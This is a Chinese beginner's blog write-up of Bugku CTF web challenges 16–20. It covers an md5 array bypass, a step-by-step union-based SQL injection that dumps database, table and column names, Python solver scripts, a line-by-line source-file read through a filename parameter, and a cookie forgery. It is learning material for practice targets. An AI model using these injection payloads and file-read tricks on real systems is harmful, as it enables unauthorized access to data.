<!--yml
category: 未分类
date: 2022-04-26 14:48:29
-->

# Bugku CTF Web 解题报告二（16-20）_Vayn3的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_51090016/article/details/113098952](https://blog.csdn.net/qq_51090016/article/details/113098952)

## web 16 备份是个好习惯

打开链接长这样

让我这个菜鸡摸不着头脑。。。不过前面提示了备份，那就打开index.php.bak吧

下载打开

实在看不懂，不过根据下面评论区大佬的提示，这是要用?kekeyy1[]=[1]&kekeyy2[]=[2]绕过md5的加密（真的不懂，还是要多学），所以在后面加上?kekeyy1[]=[1]&kekeyy2[]=[2]后flag就出来了


这后面三个字是啥东西？？？

## Web 17 成绩查询

点开后长这样👇


分别输入1 2 3查了下都是成绩单，输到4就没了。看着像是sql注入的题，因为我还是个菜鸡，刚了解sql注入，只好跟着大佬做。
按照大佬的做法，先进行post请求，一切正常


加单引号又不行了

加#又可以了

**这样就可以知道有sql注入漏洞了（为什么啊？我还是不太清楚，有没有大佬解答一下）**
然后尝试获取列数，因为123都有了，所以试试4或者更高
构造id=1’ order by 4#，正常

继续构造id=1’ order by 5#，没了

**所以只有4列**

然后尝试联合查询（都是按照大佬的过程来的，还不知道为什么这么做）
**具体做法是id=0’ union select 1,2,3,4#**

然后又开始猜解数据库名， 数据库的用户，数据库的版本
**具体做法是id=0’ union select 12345,database(),user(),version()#**

**根据数据库skctf_flag去查询表名**
具体做法：id=0’ union select 12345,(select group_concat(table_name) from information_schema.tables where table_schema=database()),user(),version()#

这个select group_concat(table_name) from information_schema.tables where table_schema=database()，好像是一个用来查询表名的固定格式

上一步得到了表名fl4g和sc，flag应该藏在fl4g里面

根据fl4g表去查询字段名(列名)：**id=0’ union select 12345,(select group_concat(column_name) from information_schema.columns where table_name=‘fl4g’),user(),version()#** （有点迷糊）

再尝试获取字段(列)中的数据：**id=0’ union select 12345,(select group_concat(skctf_flag) from fl4g),user(),version()#**就获得flag了

[参考的大佬](https://blog.csdn.net/Mitchell_Donovan/article/details/112446855)，感谢大佬的wp。

## Web 18 秋名山车神

打开长这样
实在让人摸不着头脑，只好看看下面评论区大佬的提示

意思就是要写个脚本是吧。。可我的python只学了一点，只好嫖一下大佬的。

```
import bs4,requests
from lxml import html
from bs4 import BeautifulSoup

url='http://114.67.246.176:14245/'
req2=requests.Session()
ht = req2.get(url)
soup=BeautifulSoup(ht.content,'lxml')

forluma=soup.find('div').text
forluma=forluma.replace("=?;","")
result=eval(forluma)
d={"value":result}
r = req2.post(url, data=d)
print(r.text) 
```

不知道为什么我的python运行不了，总是这样


为什么不行啊啊啊。。。我要吐了，搞了半天也没找到原因，希望有大神能指点一下。
[代码出处](https://blog.csdn.net/m0_49762339/article/details/111650875)

所以这一题最后我还是没有得到flag。。（这该死的python）

## Web 19 速度要快

打开链接，看F12，发现响应头里有个flag？？

看上去像base，试试解码再说：

这就出来了？？提交看看。。。。果然是我想多了，这都19题了怎么可能那么简单 。
只好看看大佬们的wp，才知道flag是会变的，需要写一个脚本。

```
import requests
import base64
url="http://120.24.86.145:8002/web6/"
r=requests.session()
headers=r.get(url).headers

mid=base64.b64decode(headers['flag'])
mid=mid.decode()

flag = base64.b64decode(mid.split(':')[1])
data={'margin':flag}
print (r.post(url,data).text) 
```

写到这一题的时候，我才知道上一题那个脚本我为什么运行不了了，我的python没有下载requests库。。
多运行几次就flag出来了。

## Web 20 cookies欺骗


打开一看，是一串乱码。不过仔细看网址，里面好像有个base密码，解密得到：keys.txt

访问一下keys.txt ？不行，没反应。然后就真的不是我这种菜鸟能做出来的了，照着大佬的wp继续

尝试用修改参数filename的值为index.php（注意此处要用base64加密为aW5kZXgucGhw）
发现参数line没有给值，随意赋值如3，出现

一个个试太麻烦，上脚本将index.php的源码读取出来（又要上脚本？？）

```
 import requests

def getIndex(url):
    res = requests.get(url)
    return res.text

for i in range(0,30):
    url = 'http://123.206.87.240:8002/web11\
/index.php?line='+str(i)+'&filename=aW5kZXgucGhw'

    print(getIndex(url)) 
```

源码

```
<?php

error_reporting(0);

$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");

$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");

$file_list = array(

'0' =>'keys.txt',

'1' =>'index.php',

);

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){

$file_list[2]='keys.php';

}

if(in_array($file, $file_list)){

$fa = file($file);

echo $fa[$line];

}

?> 
```

分析源代码，当cookie的margin=margin时，可以访问一个keys.php文件
注意把参数filename的值改为base64加密后的keys.php

这样就行了（做得好懵）